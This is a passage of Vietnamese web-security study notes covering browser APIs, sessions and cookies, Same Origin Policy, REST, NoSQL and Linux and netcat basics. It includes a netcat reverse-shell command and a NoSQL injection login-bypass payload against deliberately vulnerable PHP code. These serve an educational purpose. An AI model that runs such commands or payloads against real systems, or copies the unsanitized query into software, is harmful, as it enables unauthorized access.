- Tách biệt JS khỏi HTML
- Dễ dàng remove

---

## 9. Browser Object Model (BOM)

BOM cho phép JavaScript tương tác với trình duyệt (ngoài trang HTML).

```javascript
// Location - thông tin URL hiện tại
window.location.href;       // URL đầy đủ
window.location.hostname;   // Tên domain
window.location.pathname;   // Đường dẫn
window.location.assign("https://example.com"); // Chuyển hướng

// History - lịch sử duyệt web
window.history.back();      // Quay lại
window.history.forward();   // Tiến tới

// Navigator - thông tin trình duyệt
window.navigator.userAgent;    // Chuỗi User-Agent
window.navigator.language;     // Ngôn ngữ trình duyệt

// Timing
setTimeout(function() {
    alert("Chạy sau 3 giây");
}, 3000);

setInterval(function() {
    console.log("Chạy mỗi 1 giây");
}, 1000);

// Cookie
document.cookie = "username=John; expires=Thu, 18 Dec 2030 12:00:00 UTC; path=/";
```

---

## 10. Nhận diện HTTP Client / Session

HTTP là giao thức **stateless** (không duy trì trạng thái) — mỗi request độc lập, server không tự nhớ request trước. Để theo dõi người dùng, các cơ chế sau được dùng:

### Các phương pháp nhận diện

=== "Cookies"
    Cookie là chuỗi nhỏ được server gửi về và browser lưu lại, tự động đính kèm vào mỗi request sau.

    ```http
    Set-Cookie: session_id=abc123; HttpOnly; Secure; SameSite=Strict
    ```

    ```javascript
    // Đọc cookie trong JS
    console.log(document.cookie);
    ```

    !!! warning "Bảo mật Cookie"
        - `HttpOnly`: ngăn JS đọc cookie (chống XSS)
        - `Secure`: chỉ gửi qua HTTPS
        - `SameSite`: chống CSRF

=== "Session"
    Server lưu dữ liệu session và gửi cho client một `session_id` (thường qua cookie). Mỗi request, client gửi `session_id` này lên để server nhận ra.

    ```php
    <?php
    session_start();
    $_SESSION["username"] = "john";
    echo $_SESSION["username"];
    ?>
    ```

=== "HTTP Headers"
    Một số thông tin nhận diện qua header:
    - `User-Agent`: phiên bản trình duyệt
    - `Referer`: trang trước đó
    - `Authorization`: thông tin xác thực (Basic Auth)
    - `X-Forwarded-For`: IP thật của client khi qua proxy

=== "FAT URLs"
    Nhúng thông tin trạng thái vào URL:
    ```
    https://example.com/store/cart?session=abc123
    ```
    Ít phổ biến, lộ thông tin trong URL.

---

## 11. Same Origin Policy (SOP)

### 11.1 Khái niệm

SOP là cơ chế bảo mật quan trọng trong trình duyệt, hạn chế một document hoặc script từ **nguồn này** tương tác với tài nguyên từ **nguồn khác**.

**Origin = Scheme + Host + Port**

```
https://store.company.com:443/page.html
  │         │                │
scheme     host             port
```

### 11.2 Bài tập — Đánh giá Same Origin

Cho URL gốc: `http://store.company.com/dir/page.html`

| URL so sánh | Kết quả | Lý do |
|---|---|---|
| `http://store.company.com/dir2/other.html` | **Same Origin** | Cùng scheme, host, port (80 mặc định) |
| `http://store.company.com/dir/inner/another.html` | **Same Origin** | Path khác nhau, không ảnh hưởng |
| `https://store.company.com/secure.html` | **Khác Origin** | Scheme khác (http vs https) |
| `http://store.company.com:8080/secure.html` | **Khác Origin** | Port khác (80 vs 8080) |
| `http://shop.company.com/secure.html` | **Khác Origin** | Host khác (store vs shop) |

### 11.3 Bypass SOP

```javascript
// Thay đổi domain (chỉ dùng để cho subdomain giao tiếp với nhau)
document.domain = "company.com";
```

**CORS (Cross-Origin Resource Sharing):** được tích hợp trong HTML5, cho phép server chỉ định ai được phép truy cập tài nguyên cross-origin:

```http
Access-Control-Allow-Origin: https://trusted-site.com
Access-Control-Allow-Methods: GET, POST
```

---

## 12. RESTful API

### 12.1 Khái niệm

REST (REpresentational State Transfer) là chuẩn thiết kế web service, quy định cách client và server tương tác. Các đặc điểm:

- **Self-documenting**: nhìn vào API endpoint hiểu được chức năng
- **Flexible**: dễ mở rộng, tùy biến
- **Unified structure**: thống nhất cách đặt tên resource và attribute
- **Clear error message**: thông báo lỗi rõ ràng

### 12.2 HTTP Methods trong REST

| Method | Chức năng | Ví dụ |
|---|---|---|
| `GET` | Lấy dữ liệu | `GET /users/1` — lấy user có id=1 |
| `POST` | Tạo mới | `POST /users` — tạo user mới |
| `PUT` | Cập nhật toàn bộ | `PUT /users/1` — cập nhật user 1 |
| `PATCH` | Cập nhật một phần | `PATCH /users/1` — cập nhật một số field |
| `DELETE` | Xóa | `DELETE /users/1` — xóa user 1 |

### 12.3 HTTP Status Code phổ biến

| Code | Tên | Ý nghĩa |
|---|---|---|
| `200` | OK | Thành công |
| `201` | Created | Tạo mới thành công |
| `304` | Not Modified | Client có thể dùng cache |
| `400` | Bad Request | Request không hợp lệ |
| `401` | Unauthorized | Chưa xác thực |
| `403` | Forbidden | Đã xác thực nhưng không có quyền |
| `404` | Not Found | Resource không tồn tại |
| `422` | Unprocessable Entity | Server hiểu request nhưng không xử lý được (validation lỗi) |
| `500` | Internal Server Error | Lỗi phía server |

!!! tip "Phân biệt 401 vs 403"
    - **401**: Bạn **chưa đăng nhập** — "Tôi không biết bạn là ai"
    - **403**: Bạn đã đăng nhập nhưng **không có quyền** — "Tôi biết bạn là ai, nhưng bạn không được phép vào đây"

---

## 13. NoSQL

### 13.1 Định nghĩa CAP Theorem

Hệ thống phân tán không thể đồng thời đảm bảo cả 3:



- **Consistency (C)**: Tất cả node trả về dữ liệu giống nhau tại cùng một thời điểm
- **Availability (A)**: Hệ thống luôn phản hồi request (dù một số node bị lỗi)
- **Partition Tolerance (P)**: Hệ thống vẫn hoạt động khi mạng bị chia cắt

NoSQL **ưu tiên hiệu suất và scalability** hơn tính toàn vẹn dữ liệu (transaction), phù hợp cho **Big Data** và **Real-time**.

### 13.2 4 loại NoSQL

=== "Key-Value"
    Lưu trữ dạng cặp key-value. Truy vấn bằng key. **Rất nhanh**.

    **Ứng dụng:** Cache (Redis, Memcached), session, user preferences.

    **Database tiêu biểu:** Redis, Riak, MemCache, Project Voldemort

    ```
    Key: "user:1001"
    Value: {"name": "John", "age": 25}
    ```

=== "Document"
    Lưu trữ dạng document (JSON/BSON). Mỗi document có thể có cấu trúc khác nhau.

    **Ứng dụng:** CMS, e-commerce, user profiles.

    **Database tiêu biểu:** MongoDB, CouchDB, RavenDB

    ```json
    {
      "first_name": "Mary",
      "last_name": "Jones",
      "year_of_birth": 1986,
      "profession": ["Developer", "Engineer"],
      "apps": [{"name": "MyApp", "version": "1.0.4"}]
    }
    ```

=== "Column-Family"
    Dữ liệu lưu theo cột thay vì theo hàng. Mỗi hàng có số cột khác nhau.

    **Ứng dụng:** Big data, ghi số lượng lớn dữ liệu, CMS.

    **Database tiêu biểu:** Cassandra (Facebook), HBase, HyperTable

=== "Graph"
    Dữ liệu lưu dưới dạng node và cạnh (relationship). Tối ưu cho các truy vấn liên quan đến mối quan hệ.

    **Ứng dụng:** Mạng xã hội, hệ thống gợi ý, phân tích quan hệ.

    **Database tiêu biểu:** Neo4j, InfiniteGraph, OrientDB

    ```
    Node: Alice (Id: 1, Age: 18)
    Node: Bob (Id: 2, Age: 22)
    Node: Chess Group (Id: 3)

    Relationship: Alice --[MEMBER_OF]--> Chess Group
    Relationship: Bob --[MEMBER_OF]--> Chess Group
    ```

### 13.3 MongoDB trong PHP — Lỗ hổng NoSQL Injection

```php
<?php
$username = $_POST['username'];
$password = $_POST['password'];

$connection = new MongoDB\Client('mongodb://localhost:27017');
$db = $connection->test;
$users = $db->users;

$query = array(
    'user' => $username,
    'password' => $password
);

$req = $users->findOne($query);
?>
```

!!! danger "NoSQL Injection"
    Code trên dễ bị tấn công NoSQL Injection. Attacker có thể gửi:
    ```
    username[$ne]=x&password[$ne]=x
    ```
    MongoDB sẽ hiểu là: tìm user mà `username != "x"` và `password != "x"` — bỏ qua xác thực hoàn toàn.

    **Phòng chống:** Kiểm tra và sanitize đầu vào, không đưa trực tiếp vào query.

---

## 14. Hệ thống Linux cơ bản

### 14.1 Cấu trúc thư mục

| Thư mục | Nội dung |
|---|---|
| `/bin` | Lệnh cơ bản cho tất cả user (ls, cp, mv,...) |
| `/sbin` | Lệnh quản trị hệ thống (chỉ root) |
| `/etc` | File cấu hình hệ thống |
| `/home` | Thư mục home của từng user |
| `/var` | Dữ liệu thay đổi: log, cache, database |
| `/tmp` | File tạm, xóa khi reboot |
| `/usr` | Chương trình người dùng |
| `/opt` | Ứng dụng cài thêm (add-on) |
| `/proc` | Thông tin process (virtual filesystem) |
| `/dev` | File thiết bị (device) |

**Ký hiệu đặc biệt:**
- `.` — thư mục hiện hành
- `..` — thư mục cha
- `~` — thư mục home của user hiện tại

### 14.2 Các lệnh Linux thường dùng

```bash
# Di chuyển và xem
pwd                  # In thư mục hiện tại
cd /var/www/html     # Chuyển thư mục
ls -la               # Liệt kê file (chi tiết, kể cả file ẩn)
cat /etc/passwd      # Đọc nội dung file
head -n 20 file.txt  # Xem 20 dòng đầu
tail -f /var/log/apache2/error.log  # Theo dõi log realtime

# Quản lý file
cp source dest       # Sao chép
mv source dest       # Di chuyển / đổi tên
mkdir -p /path/to/dir # Tạo thư mục (kể cả thư mục cha)
rm -rf directory     # Xóa thư mục và nội dung

# Tìm kiếm
find / -name "*.php" -type f    # Tìm tất cả file .php
grep -r "password" /var/www/    # Tìm chuỗi trong file

# Phân quyền
chmod 755 file.php   # rwxr-xr-x
chown www-data:www-data file    # Đổi chủ sở hữu

# Process
ps aux               # Liệt kê process đang chạy
kill -9 PID          # Kết thúc process
top                  # Xem process realtime

# Mạng
ping google.com
wget https://example.com/file.zip
netcat -lvp 4444     # Lắng nghe TCP port 4444
```

### 14.3 Netcat

Netcat là công cụ đa năng cho kết nối TCP/UDP:

```bash
# Lắng nghe trên port 4444
nc -lvp 4444

# Kết nối đến host
nc 192.168.1.10 4444

# Gửi file
nc -w 3 192.168.1.10 4444 < file.txt

# Nhận file
nc -lvp 4444 > received_file.txt

# Reverse shell (dùng trong penetration testing)
nc -e /bin/bash 192.168.1.10 4444
```

---

## 15. Kiến thức mở rộng

### Tài liệu tham khảo quan trọng

- **OWASP Top 10** — Danh sách 10 lỗ hổng web phổ biến nhất: [https://owasp.org/Top10/](https://owasp.org/Top10/)
- **W3Schools** — Tham khảo HTML, CSS, JS, PHP, SQL: [https://www.w3schools.com](https://www.w3schools.com)
- **MDN Web Docs** — Tài liệu web chuẩn nhất: [https://developer.mozilla.org](https://developer.mozilla.org)
- **PortSwigger Web Security Academy** — Học bảo mật web miễn phí, thực hành lab: [https://portswigger.net/web-security](https://portswigger.net/web-security)
- **PHP Manual**: [https://www.php.net/manual/](https://www.php.net/manual/)
- **MongoDB Documentation**: [https://www.mongodb.com/docs/](https://www.mongodb.com/docs/)

### Công cụ bảo mật phổ biến

| Công cụ | Mục đích |
|---|---|
| **Burp Suite** | Proxy, intercept HTTP, test web vulnerability |
| **OWASP ZAP** | Scanner lỗ hổng web, miễn phí |
| **SQLMap** | Tự động phát hiện và khai thác SQL Injection |
| **Nmap** | Scan port, nhận diện dịch vụ |
| **Wireshark** | Bắt và phân tích gói tin mạng |
| **Metasploit** | Framework khai thác lỗ hổng |
